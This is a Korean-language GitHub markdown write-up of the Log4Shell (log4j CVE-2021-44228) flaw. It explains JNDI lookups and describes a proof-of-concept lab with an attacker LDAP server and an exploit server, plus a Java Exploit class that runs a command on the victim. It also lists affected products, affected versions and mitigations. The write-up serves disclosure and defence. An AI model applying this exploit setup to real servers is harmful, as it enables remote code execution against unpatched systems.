





# log4j 취약점 정리

* log4j는 대부분의 java application에서 범용적으로 사용되는 로깅 라이브러리
* log4j에서 JNDI(JAVA Naming and Directory Interface)를 통하여 LDAP이나 DNS lookup 가능하며 제한이 없음
  * java class의 URI도 JNDI lookup의 리턴값으로 가져올 수 있음 

# PoC 환경
  * Victim : log4j 취약점을 갖은 서버 (vulnerable-app)
    * e.g.) log.info("Received a request for API version {}", X-Api-Version);
    * listen port 8080
    * 
  * Attacker LDAP 조회 응답 서버
    * listen port 1389
    * 
  * Attacker Exploit 코드를 가진 서버
    * listen port 8888
    * 
    * Exploit.java
      ```java
        public class Exploit {
          public Exploit() {}
          static {
              try {
                  String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                          ? new String[]{"cmd.exe","/c", "calc.exe"}
                          : new String[]{"touch","/tmp/log4j_vuln_cjcert"};
                  java.lang.Runtime.getRuntime().exec(cmds).waitFor();
              }catch (Exception e){
                  e.printStackTrace();
              }
          }
          public static void main(String[] args) {
              Exploit e = new Exploit();
          }
      }
      ```
# 실행
  * 취약점을 갖은 서버로 Http Header 내 X-Api-Version 키에 jdni ldap 서버의 주소와 java클래스 이름으로 보냄
    * 
  * 해당 서버 내 /tmp log4j_vuln_cjcert 파일 생성
    * 

# 영향받는 시스템
  * Elasticsearch
  * Grails
  * Hadoop
  * Kafka
  * Kibana
  * Solr
  * Spark
  * Struts
  * Tapestry
  * Wicket

# 영향 받는 log4j2 버전
  * 2.0 <= Apache log4j <= 2.14.1

# 해결 방안
  * 2.0-beta9 ~ 2.10.0
    * JndLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

  * 2.10 ~ 2.14.1
    * log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정

  * 제조사 홈페이지를 통해 최신버전(2.15.0)으로 업데이트 적용[3]

# 참고
  * https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389
  * https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  * https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
  * https://github.com/christophetd/log4shell-vulnerable-app
